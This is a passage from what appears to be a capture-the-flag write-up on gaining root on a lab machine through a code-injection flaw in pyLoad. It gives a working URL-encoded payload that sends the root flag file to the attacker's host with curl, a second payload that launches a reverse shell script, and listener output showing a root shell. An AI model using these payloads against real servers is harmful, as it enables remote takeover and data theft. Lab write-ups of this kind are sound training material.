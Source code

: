 ```
POST / HTTP/1.1
Host: 10.10.16.85:9999
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 202
Content-Type: application/x-www-form-urlencoded

total 44
drwxr-xr-x 2 root root  4096 Aug 31 15:47 .
drwxr-xr-x 7 root root  4096 Jan 11  2023 ..
-rw-r--r-- 1 root root     1 Jan 11  2023 db.version
-rw------- 1 root root 28672 Aug 31 15:47 pyload.db
```

After further enumeration, I got the flag using the following payload:

```
jk=pyimport%20os;os.system("curl+-d+\"$(cat+/root/root.txt)\"+http%3a//10.10.16.85%3a9999/");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

But I didn't feel satisfied, I NEED TO POP A SHELL!

The next thing I've done is create a reverse shell python file inside `/tmp/nora/revshell.py` using the `sau` account and sent the following request to the server:

```
jk=pyimport%20os;os.system("/tmp/nora/rev.py");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```

```
$ nv -lvp 9999
listening on [any] 9999 ...
10.10.11.214: inverse host lookup failed: Unknown host
connect to [10.10.16.85] from (UNKNOWN) [10.10.11.214] 43674
# whoami
whoami
root
# 
```